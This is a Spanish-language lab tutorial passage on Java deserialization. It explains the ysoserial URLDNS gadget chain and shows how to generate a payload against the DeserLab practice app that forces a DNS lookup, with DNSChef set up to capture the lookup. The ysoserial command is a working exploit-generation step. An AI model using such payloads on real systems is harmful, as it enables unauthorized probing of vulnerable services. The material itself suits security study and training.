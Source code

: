 Podemos observar una cadena de artilugios de 4 objetos

Cadena de gadgets:

```
HashMap.readObject()
  HashMap.putVal()
    HashMap.hash()
      URL.hashCode()
```

\*HashMap.readObject()\*\* hace que Java cree una instancia del objeto deserializado tras una deserialización exitosa. El mapa hash contiene un objeto URL con hash, que debido a los mecanismos incorporados de Java, se resolverá correctamente.

* Está diseñado en el método público getObject
* HashMap es un tipo de datos Java que almacenaba datos en pares clave-valor, y a menudo se usa en exploits de deserialización

En primer lugar, **se usa SilentURLStreamHandler** para no resolver la dirección URL al crear el objeto serializado. La variable **url** es la URL proporcionada por el usuario que se va a resolver.

* línea 55, se define un nuevo HashMap
* luego, se asigna un tipo de datos java.net.URL al Hashmap, a la clave **u**
* a continuación, se calcula el código hash de la URL. Tras la deserialización, la URL en la que se calculó el código hash se resolverá, lo que dará como resultado una resolución de DNS arbitraria.

### Exploit de resolución de DNS arbitrario <a href="#arbitrary-dns-resolution-exploit" id="arbitrary-dns-resolution-exploit"></a>

La carga útil se genera en el archivo p.bin, que se utilizó anteriormente para ejecutar ping

```
java -jar ysoserial-master-SNAPSHOT.jar URLDNS http://somethingnonexistent.com > DeserLab/DeserLab-v1.0/p.bin
```

> si tiene Burp Suite Pro, puede usar el cliente de colaborador para generar y capturar solicitudes de DNS

DNSChief se utilizará como un proxy DNS simple. Puedes clonarlo desde su repositorio de GitHub:

```
https://github.com/iphelix/dnschef
```

Añadir a /etc/resolv.conf

```
nameserver 127.0.0.1
```

Inicie DNSChief y verifique si funciona correctamente intentando hacer ping a un dominio inexistente:

```
ping oahsdhuasdo.com
```
